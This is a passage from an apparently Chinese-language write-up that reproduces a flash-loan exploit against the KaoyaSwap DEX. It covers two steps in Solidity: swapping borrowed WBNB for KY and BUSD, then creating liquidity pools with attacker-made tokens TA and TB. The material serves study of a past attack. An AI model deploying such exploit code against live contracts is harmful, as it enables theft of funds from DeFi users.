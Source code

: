 


### step2：拿出 673 个WBNB 交易来 125,022 个 KY （KaoyaSwap的官方Token(权杖)）；拿出 100 个WBNB 交易来 6,666 个 BUSD。



```solidity
    function DPPFlashLoanCall(address msgSender, uint baseAmount, uint quoteAmount, bytes calldata data) public {
        //step2
        emit log_named_decimal_uint("mybalance WBNB" , WBNB.balanceOf(address(this)), WBNB.decimals());
        WBNB.approve(address(kaoyaRouter), type(uint256).max);//自己写的代码，每行都有问题，收获太大了。wbnb地址错了，写成了usdc。。。
        address[] memory  path = new address[](2);
        path[0]=address(WBNB);
        path[1]=address(KY);
        kaoyaRouter.swapExactTokensForTokens(672.8e18, 1e18, path, address(this), block.timestamp+1000);

        address[] memory  path2 = new address[](2);
        path2[0] = address(WBNB);
        path2[1] = address(BUSD);
        kaoyaRouter.swapExactTokensForTokens(100e18, 1e18, path2, address(this), block.timestamp+1000);

}
```



### step3：为 WBNB TA TB 这 3 个Token(权杖)创建了 3 个池子并添加流动性（TA TB 是攻击者随意创建的）。
WBNB-TA 添加流动性为 \[1026e18, 50e18]；\
TB-TA 添加流动性为 \[1e18, 1e18]；\
WBNB-TB 添加流动性为 \[1e18, 1e18]。




```solidity
function DPPFlashLoanCall(address msgSender, uint baseAmount, uint quoteAmount, bytes calldata data) public {
        //step2
        ...
        //step3
        TA.approve(address(kaoyaRouter), type(uint256).max);
        TB.approve(address(kaoyaRouter), type(uint256).max);
        (, , uint256 liquidity1) = kaoyaRouter.addLiquidity(address(WBNB), address(TA), 1026.19e18, 50e18, 380, 40, address(this), block.timestamp+1000);
        (, , uint256 liquidity2) = kaoyaRouter.addLiquidity(address(WBNB), address(TB), 1e18, 1e18, 1, 1, address(this), block.timestamp+1000);
        (, , uint256 liquidity3) = kaoyaRouter.addLiquidity(address(TA), address(TB), 1e18, 1e18, 1, 1, address(this), block.timestamp+1000);
}
```
